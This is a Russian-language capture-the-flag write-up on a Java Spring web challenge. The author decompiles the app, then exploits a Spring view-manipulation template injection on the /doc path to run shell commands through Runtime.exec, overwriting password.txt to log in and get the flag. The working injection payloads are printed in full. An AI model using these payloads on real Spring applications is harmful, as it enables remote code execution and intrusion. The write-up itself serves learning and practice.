 # Web 2
Декомпилим исходники сайта через Luyten, потому что исходники на джаве(.jar):\
![java.png](java.png "а вот и исходники")
Видим упоминание springframework, в том числе в MANIFEST.MF, это ам понадобится. В HelloController.class описана основная логика приложения, внимательно читаем его и понимаем, что чтобы получить флаг, нам нужно узнать/записать пароль в password.txt:\
![password.png](password.png "интересненько...")
Видим ещё /doc/{document}, который скорее всего можно проэксплатировать. Ищем в яндексе "springframework Path Variable exploit" и натыкаемся на замечательный сайт:\
https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability \
На нём находим эксплоит для /doc: \
```
GET /doc/__${T(java.lang.Runtime).getRuntime().exec("touch executed")}__::.x HTTP/1.1
```
Гуглим как в джаве запускать что-то из шелла: \
https://stackoverflow.com/questions/13707519/running-a-bash-shell-script-in-java
Вместо touch пробуем перезаписать password.txt:\
```
/doc/__${T(java.lang.Runtime).getRuntime().exec(new String[]{"bash", "-c", "echo 4343 > password.txt"})}__::.x
```
и получаем 400: \
![400.png](400.png "400 :(")
Методом перебора понимаем, что проблема в [], поэтому кодируем их в юрл: \
```
192.168.12.13:8090/doc/__${T(java.lang.Runtime).getRuntime().exec(new String%5b%5d{"bash", "-c", "echo 4343 > password.txt"})}__::.x
```
Сработало:
![win1.png](win1.png "win! :)")
Логинимся и получаем флаг!!!!!!!! \
![win2.png](win2.png "win!!!!! ^-^")
